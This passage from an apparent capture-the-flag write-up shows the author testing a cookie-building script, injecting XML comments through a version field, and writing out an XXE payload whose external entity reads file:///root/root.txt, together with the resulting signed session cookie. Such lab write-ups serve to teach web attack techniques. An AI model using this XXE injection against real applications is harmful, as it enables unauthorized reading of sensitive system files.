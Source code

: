 Running it prints the decoded XML:

```

oxdf@parrot$ ./test-cookie.sh 0xdf 1.0.0
<!-- API Version 1.0.0 -->
<root>
    <data>
        <username>0xdf</username>
        <is_admin>0</is_admin>
    </data>
</root>

```

What’s cool is that by playing around with this, I can see how I can mess with the cookie. For example, I can use comments to add stuff outside the `<root>`:

```

oxdf@parrot$ bash ./test-cookie.sh 0xdf '-->Dangerous stuff!<!--'
<!-- API Version -->Dangerous stuff!<!-- -->
<root>
    <data>
        <username>0xdf</username>
        <is_admin>0</is_admin>
    </data>
</root>

```

XXE is typically good for reading files from the file system. Can I get `root.txt`? I’ll generate a payload like this:

```

oxdf@parrot$ bash ./test-cookie.sh '&test;' '1.0.0 -->\n\n<!DOCTYPE root [<!ENTITY test SYSTEM "file:///root/root.txt">]><!-- '
[+] Got cookie: .eJxtkEtPhDAYRf-K6doFIJM4k7iwQnloixT6dWBXUiIMBZuBZF7xv8ti3Lm-9-ac3Bsy59Gg3Q09NGiHRMiIDs9lPqTA5TLB6MpW0ksT170SxC8ji7Vwg3zPKQT8I_fskyIpyQSXfDxzYdhbK5NLVuKUT9QvAGTp1qQhsBdOcpKmy2hootJYoJBGQBhWYJcmZgqirVfGw-a-p9SxXnVgXEueqACn6gCDiFbe6kcjTcX19bjy_Xs_r73tVAiGaxfHYuwG7og1N7h2TJBLneYOmUTYydbYqpighiuZRWQUJbYqD_iznbRXky5rIrYw2fXg_rfXc2u-LnxcevDO7uqDs_C0_mMrOtTHyuhZA54a769PN8o11eqz-j37ZcDe9ZhcRTG_oJ9HZL_7aZnRzvn5BTubgkc.YKLbYw.gx88jbKZCDX4VjKnKGJvoEv5vLg
<!-- API Version 1.0.0 -->

<!DOCTYPE root [<!ENTITY test SYSTEM "file:///root/root.txt">]><!-- -->
<root>
    <data>
        <username>&test;</username>
        <is_admin>0</is_admin>
    </data>
</root>

```
